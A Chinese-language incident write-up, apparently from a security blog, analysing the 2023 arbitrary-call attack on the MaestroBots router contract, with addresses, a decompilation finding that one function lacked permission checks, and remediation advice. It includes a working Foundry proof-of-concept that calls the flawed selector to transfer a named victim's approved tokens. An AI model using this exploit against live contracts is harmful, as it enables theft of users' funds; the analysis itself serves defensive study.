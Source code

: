 
---
layout: post
category: attack_events
---# MaestroBots@arbitrary-call

[MaestroBots](https://twitter.com/MaestroBots)的路由合约受到攻击，漏洞发生约半小时之后项目方就发现并且迅速修复，替换了新的路由合约，并承诺归还大约280ETH给损失的用户。

多笔攻击的手法一致，我们选取其中一笔[MogCoinEth](https://twitter.com/MogCoinEth)来进行分析。

- 时间：2023-10-24 22:53:47 (UTC)
- 损失金额：~281ETH
- twitter
  - [BeosinAlert](https://twitter.com/BeosinAlert/status/1717013965203804457)
  - [Phalcon_xyz](https://twitter.com/Phalcon_xyz/status/1717014871836098663)

![image-20231026140057456](11.MaestroBots@arbitrary-call/image-20231026140057456.png)

## 交易 

- 受攻击的路由合约Router2（存储合约，未开源）：[0x80a64c6D7f12C47B7c66c5B4E20E72bc1FCd5d9e](https://etherscan.io/address/0x80a64c6d7f12c47b7c66c5b4e20e72bc1fcd5d9e#code)
- 代理合约（逻辑合约，未开源）：[0x8EAE9827b45bcC6570c4e82b9E4FE76692b2ff7a](https://etherscan.io/address/0x8eae9827b45bcc6570c4e82b9e4fe76692b2ff7a)

- 分析其中一笔攻击交易：[0xc087fbd68b9349b71838982e789e204454bfd00eebf9c8e101574376eb990d92](https://etherscan.io/tx/0xc087fbd68b9349b71838982e789e204454bfd00eebf9c8e101574376eb990d92)
- 黑客EOA地址：[0xce6397e53c13ff2903ffe8735e478d31e648a2c6](https://etherscan.io/address/0xce6397e53c13ff2903ffe8735e478d31e648a2c6)
- 黑客攻击合约地址（已销毁）：[0xe6c6e86e04de96c4e3a29ad480c94e7a471969ab](https://etherscan.io/address/0xe6c6e86e04de96c4e3a29ad480c94e7a471969ab)
- 新的代理合约（逻辑合约，未开源）：[0x6599aE06914f1f5Ec0053d3F475348D40E608442](https://etherscan.io/address/0x6599ae06914f1f5ec0053d3f475348d40e608442#code)

## 资金流向

![image-20231026141507912](11.MaestroBots@arbitrary-call/image-20231026141507912.png)

## 攻击过程

通过[phalcon](https://explorer.phalcon.xyz/tx/eth/0xc087fbd68b9349b71838982e789e204454bfd00eebf9c8e101574376eb990d92)浏览器可以发现，攻击者写了一个合约，调用`0x9239127f`方法，就成功将代币转移到攻击合约中。

![image-20231026142550675](11.MaestroBots@arbitrary-call/image-20231026142550675.png)

然后后面就是一系列的将获利转换成ETH的操作，我们只需要分析为什么可以直接转移代币即可，这一定是逻辑合约的函数写的有问题。

## 攻击详细分析

由于逻辑合约没有开源（也许就是这个原因，就放松了警惕），我们对其进行反编译，找到`0x9239127f`方法：该函数可以对传入的`varg0`，转换后也就是一个token的地址。任何人可以对其进行任意调用，因为没有做任何传参的校验和权限校验！通览整个方法，也没有发现任何可能revert的地方。

![image-20231026143700254](11.MaestroBots@arbitrary-call/image-20231026143700254.png)

修复之后的逻辑合约已经没有这个方法了

![image-20231026144446950](11.MaestroBots@arbitrary-call/image-20231026144446950.png)

## 复现

[GitHub](https://github.com/chen4903/BlockChainPoC)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

// https://github.com/foundry-rs/foundry/issues/4916
// forge test --match-path test/PoC/11.MaestroBots@arbitrary-call.sol --offline -vvvv --evm-version 'shanghai'

contract ContractTest is Test {
    address public storageContract = 0x80a64c6D7f12C47B7c66c5B4E20E72bc1FCd5d9e;
    IERC20 public Mog = IERC20(0xaaeE1A9723aaDB7afA2810263653A34bA2C21C7a);
    address public logicContract = 0x8EAE9827b45bcC6570c4e82b9E4FE76692b2ff7a;
    // 模拟其中一个受害者
    address victim = 0x4189ad9624F838eef865B09a0BE3369EAaCd8f6F;

    function setUp() public{
        vm.createSelectFork("mainnet", 18_423_219); // 攻击在18_432_662
    }

    function test_exploit() public{

        uint256 attackBefore = Mog.balanceOf(address(this));
        console.log("before attack, Mog balance", attackBefore);

        uint256 allowance = Mog.allowance(victim, storageContract);
        uint256 balance = Mog.balanceOf(victim);
        balance = allowance < balance ? allowance : balance;

        // 从调用关系可以知道，攻击者使用了`transferFrom`
        bytes memory data = abi.encodeWithSignature("transferFrom(address,address,uint256)", victim, address(this), balance);

        address(storageContract).call(abi.encodeWithSelector(
            // 需要调用的方法
            hex"9239127f",
            // token
            uint256(uint160(address(Mog))), 
            // 对于token需要调用的数据
            data,
            // 不太清楚后面两个参数干嘛用的，不了解这个项目
            uint256(0),
            uint256(0)
        ));

        uint256 attackAfter = Mog.balanceOf(address(this));
        console.log("after attack, Mog balance", attackAfter);

        // 检测是否获利
        assertGt(attackAfter, attackBefore);

    }
}
```

## 建议

- 即使没有开源源代码，也不要放松警惕
- 对于关键函数，一定要进行权限检测和参数校验



